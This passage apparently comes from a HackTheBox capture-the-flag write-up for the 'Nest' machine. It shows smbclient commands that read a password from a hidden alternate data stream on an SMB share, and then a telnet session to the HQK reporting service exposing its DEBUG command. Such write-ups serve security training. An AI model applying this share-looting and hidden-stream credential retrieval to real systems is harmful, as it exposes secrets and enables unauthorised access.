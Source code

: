 and the password **WBQ201953D8w**

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Nest/src/2.png" alt="1" />
</p>

or simply get the hidden files from SMB
```
$ smbclient \\\\10.10.10.178\\Users -U C.Smith

smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 08:21:44 2020
  ..                                  D        0  Sun Jan 26 08:21:44 2020
  HQK Reporting                       D        0  Fri Aug  9 01:06:17 2019
  user.txt                            A       32  Fri Aug  9 01:05:24 2019

smb: \C.Smith\> cd "HQK Reporting"
smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Fri Aug  9 01:06:17 2019
  ..                                  D        0  Fri Aug  9 01:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 14:18:42 2019
  Debug Mode Password.txt             A        0  Fri Aug  9 01:08:17 2019
  HQK_Config_Backup.xml               A      249  Fri Aug  9 01:09:05 2019

		10485247 blocks of size 4096. 6543963 blocks available

smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt":Password

$ cat Debug\ Mode\ Password.txt:Password
WBQ201953D8w
```

### HQK

We switch to the HQK service on port 4386

```
$ telnet nest.htb 4386
Trying 10.10.10.178...
Connected to nest.htb.
Escape character is '^]'.

HQK Reporting Service V1.2

>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
```
